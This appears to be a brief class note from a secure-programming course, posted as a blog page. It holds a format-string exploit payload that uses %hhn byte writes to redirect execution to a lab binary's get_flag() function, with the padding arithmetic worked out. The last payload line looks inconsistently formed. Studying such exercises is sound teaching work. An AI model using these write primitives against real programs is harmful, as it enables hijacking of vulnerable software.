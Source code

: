 ```yaml
---
layout: post
title: 'Secure Programming 2014-10-28'
category: note
slug: secure-programming-20141028
---
```

2014/10/28 Secure Programming Class Note

```text
\xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100 c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn
get_flag(): 0x0804861d
29      %29c
134     %105c
4       %97c
8       %97c
%29c$hhn%105$hhnc%97c$hhn%97c$hhn
```
